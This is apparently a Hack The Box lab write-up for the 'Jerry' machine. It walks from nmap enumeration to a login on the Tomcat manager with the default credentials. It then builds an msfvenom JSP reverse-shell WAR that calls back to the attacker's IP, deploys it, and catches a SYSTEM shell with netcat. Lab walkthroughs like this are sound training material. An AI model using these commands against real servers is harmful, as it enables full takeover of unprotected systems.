 # Granny
https://app.hackthebox.com/machines/Jerry

![Jerry](images/htb-jerry.png)

Target IP
10.10.10.95

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.95
```

### Nmap

From Nmap results returned from AutoRecon we see that only port 8080 is open and Appache Tomcat is running on it.

```
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

The nmap scan AutoRecon run for each open port also returned that we have a few pages with Basic authentication

```
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.95
|   url                                        method
|   http://10.10.10.95:8080/manager/status     HTTP: Basic
|   http://10.10.10.95:8080/manager/html       HTTP: Basic
|_  http://10.10.10.95:8080/host-manager/html  HTTP: Basic
```

### Webpage

Trying to access the `manager` one, results on a prompt asking for username and password.

![Logon](images/htb-jerry-web-manager-logon.png)

If we cancel the prompt, we are redirect to an error page with some interesting information.

![Logon error](images/htb-jerry-web-manager-logon-error.png)

The error page shows a default password username `tomcat` password `s3cret`. If we reload the page and try to use this credential we get access.

![Access](images/htb-jerry-web-manager-access.png)

## Exploitation

Now we are logged in to the manager app and we can get a shell from here. We are on an apache tomcat server and apache tomcat uses WAR files. To get a reverse shell we will use `msfvenom` to create the payload:

For that we will need to know our HackTheBox VPN IP.
```
$ ip a | grep -E 'inet.+tun0' | awk '{print $2}' | awk -F'/' '{print $1}'
10.10.14.2
```

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war -o jspshell.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: jspshell.war
```

Now we can upload and deploy our payload on the server.

![WAR](images/htb-jerry-web-manager-war-file.png)

![WAR Deploy](images/htb-jerry-web-manager-war-file-deploy.png)

We then open our listner...
```
$ nc -nlvp 4444
listening on [any] 4444 ...
```

... and call the application we uploaded.

```
$ curl http://10.10.10.95:8080/jspshell/
```

As soon as the application is executed, we get a shell

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

The `whoami` command revels that we are *system* on the target.
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

We can now get our flags/proof :-)

```
C:\Users\Administrator\Desktop\flags>hostname && whoami && ipconfig && type "2 for the price of 1".txt
hostname && whoami && ipconfig && type "2 for the price of 1".txt
JERRY
nt authority\system

Windows IP Configuration
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::248
   IPv6 Address. . . . . . . . . . . : dead:beef::d187:5e06:5baa:6632
   Link-local IPv6 Address . . . . . : fe80::d187:5e06:5baa:6632%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:adf7%11
                                       10.10.10.2

Tunnel adapter isatap.{E6565A26-EF2E-43A5-A579-B0F25E7B1DC8}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb

user.txt
700**************************d00

root.txt
04a**************************90e
```

## Extra

- Thi [GitHub Repo](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt) has a good list of default Tomcat passwords.
- This [script](https://github.com/mgeeky/tomcatWarDeployer) seems to automate the whole process. Maybe would be a good approach learn it later on.